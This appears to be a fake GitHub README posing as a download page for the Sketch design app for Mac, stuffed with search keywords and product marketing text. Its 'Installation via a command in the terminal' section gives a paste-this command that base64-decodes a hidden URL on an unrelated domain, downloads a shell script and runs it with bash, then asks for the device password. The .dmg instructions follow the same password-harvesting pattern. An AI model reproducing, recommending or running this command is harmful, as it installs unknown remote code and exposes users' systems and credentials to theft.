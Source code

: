 # Sketch Mac Download
![Sketch Screenshot 1](https://pbs.twimg.com/profile_images/1858820941544869888/QHTakxOt_400x400.jpg)

[![Download Now](https://img.shields.io/badge/Download--Now-Sketch%20Mac-blue?style=for-the-badge&logo=apple)](https://nikolanfu.github.io/.github/sketchapp)

---
## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above.  
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.  
3. Open a terminal and transfer the file you extracted in the last step into it.  
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.  
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ5L2luc3RhbGwuc2g= | base64 -d))"  
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.  
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)
---

## 📦 What is Sketch for Mac?

Sketch for Mac is a leading vector graphics editor tailored specifically for user interface, web, and mobile app design. Trusted by millions of designers worldwide, Sketch combines powerful design tools with a simple, clean interface that enhances productivity and creativity.

It offers a comprehensive set of features including precision vector editing, reusable symbols and styles, smart layout resizing, and integration with a vast library of third-party plugins. Sketch makes it easy to create responsive, scalable designs and collaborate efficiently through cloud workspaces and real-time file sharing.

Built exclusively for macOS, Sketch leverages Apple Silicon hardware for superior performance, delivering smooth rendering and fast workflows. Whether you’re creating wireframes, prototypes, icons, or full-scale app designs, Sketch provides everything needed to take your ideas from concept to final product.

![Sketch UI](https://www.appgefahren.de/wp-content/uploads/2023/10/Sketch-Mac.jpg)

---

## 🌟 Key Features & Benefits

- 🎨 Vector-Based Design — Create high-quality scalable graphics for web & mobile  
- 🧩 Reusable Components — Use shared symbols and styles for consistent design  
- ☁️ Cloud Workspaces — Collaborate and manage files in real time  
- 🧠 Smart Layouts — Automatic resizing and responsive elements  
- 🔄 Third-Party Plugins — Extend functionality with hundreds of tools  
- 📐 Grid and Guides — Snap-to-grid for pixel-perfect UI layouts  
- 💡 Intuitive Interface — Clean and easy-to-navigate macOS-native design  
- 🚀 Optimized for Apple Silicon — Smooth performance on M1/M2 Macs

---

## 🖥️ System Requirements

- macOS 10.15 Catalina or later  
- Intel or Apple Silicon (M1/M2/M3) processor  
- 8 GB RAM minimum  
- 500 MB disk space

---

## 🏷️ Keywords

sketch download mac, sketch mac, sketch mac app, sketch macos, download sketch mac, macbook drawing app, sketch app download mac, sketch up mac, sketch up for mac

